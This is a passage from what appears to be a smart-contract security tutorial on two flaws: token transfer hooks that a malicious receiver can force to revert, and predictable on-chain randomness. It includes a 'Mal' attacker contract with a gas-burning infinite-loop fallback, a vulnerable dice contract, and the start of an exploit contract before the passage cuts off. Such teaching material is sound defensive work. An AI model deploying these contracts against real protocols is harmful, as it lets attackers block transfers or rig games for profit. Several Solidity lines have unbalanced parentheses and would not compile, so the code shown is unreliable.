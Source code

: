 If a smart contract transfers tokens that have transfer hooks, an attacker can set up a contract that does not accept the token (it either does not have an onReceive function or programs the function to revert). This will make the token untransferable and cause the entire transaction to revert.

Before using safeTransfer or transfer, consider the possibility that the receiver might force the transaction to revert.

```solidity
contract Mal is IERC721Receiver, IERC1155Receiver, IERC777Receiver {

    // this will intercept any transfer hook
    fallback() external payable {

        // infinite loop uses up all the gas
        while (true) {

        }
    }

    // we could also selectively deny transactions
    function onERC721Received(address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {

        if (wakeUpChooseViolence()) {
            revert();
        }
        else {
            return IERC721Receiver.onERC721Received.selector;
        }
    }
}
```

## Insecure Randomness

It is currently not possible to generate randomness securely with a single transaction on the blockchain. Blockchains need to be fully deterministic, otherwise distributed nodes would not be able to reach a consensus about the state. Because they are fully deterministic, any "random" number can be predicted. The following dice rolling function can be exploited.

```solidity
contract UnsafeDice {
    function randomness() internal returns (uint256) {
        return keccak256(abi.encode(msg.sender, tx.origin, block.timestamp, tx.gasprice, blockhash(block.number - 1);
    }

    // our dice can land on one of {0,1,2,3,4,5}
    function rollDice() public payable {
        require(msg.value == 1 ether);

        if (randomness() % 6) == 5) {
            msg.sender.call{value: 2 ether}("");
        }
    }
}

contract ExploitDice {
    function randomness() internal returns (uint256) {
        return keccak256(abi.encode(msg.sender, tx.origin, block.timestamp, tx.gasprice, blockhash(block.number - 1);
    }
```
